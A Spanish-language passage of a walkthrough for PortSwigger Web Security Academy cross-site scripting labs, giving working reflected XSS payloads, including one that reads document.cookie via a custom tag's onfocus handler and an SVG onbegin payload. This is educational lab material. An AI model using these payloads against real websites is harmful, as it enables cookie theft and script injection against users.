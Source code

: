 Esto reajustará automáticamente la resolución de la ventana nadamás cargar el iframe, provocando la ejecución automática del código malicioso. Le damos a "Deliver to victim" y habríamos completado el laboratorio.

<br />

**Laboratorio 15: Reflected XSS into HTML context with all tags blocked except custom ones**

Repitiendo la operación anterior obtenemos el tag "id" con el evento "onfocus". Quedando la solución como:

```HTML
<script> location = 'https://your-lab-id.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x'; </script>
```

<br />

**Laboratorio 16: Reflected XSS with some SVG markup allowed**

Este laboratorio tiene una vulnerabilidad Reflejada XSS simple. El sitio está bloqueando etiquetas comunes pero pierde algunas etiquetas y eventos SVG.

Para resolver el laboratorio, realice un ataque de secuencias de comandos entre sitios que llame a la función alert().

<br />

De nuevo procediendo como en los laboratorios anteriores obtenemos que el término

```HTML
<svg><animatetransform onbegin=alert(1)>
```

está permitido, por tanto, resolvemos el laboratorio mediante el link:

```HTML
<ifrema src="https://your-lab-id.web-security-academy.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E">
```

<br />

#### 4.3. XSS in HTML tag attributes.

Existen casos en los que se encodean los braquets angulares: ">", "<" pero no se encondean el resto de elementos. Sin embargo, aunque aquí la aplicación ya no es vulnerable a una inyección de entidad HTML todavía puede inyectarse un evento dañino que permita la ejecución de código JavaScript.

<br />

**Laboratorio 17: Reflected XSS into attribute with angle brackets HTML-encoded**

Este laboratorio contiene una vulnerabilidad Reflected XSS pero se encodean los braquest angulares ya que al intentar inyectar un elemento HTML no obtenemos resultado. Sin embargo podemos observar que nuestro término de búsqueda también se queda incrustado a modo de atributo en un elemento HTML,

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220629082533.png' | relative_url }}" text-align="center"/>
</div>
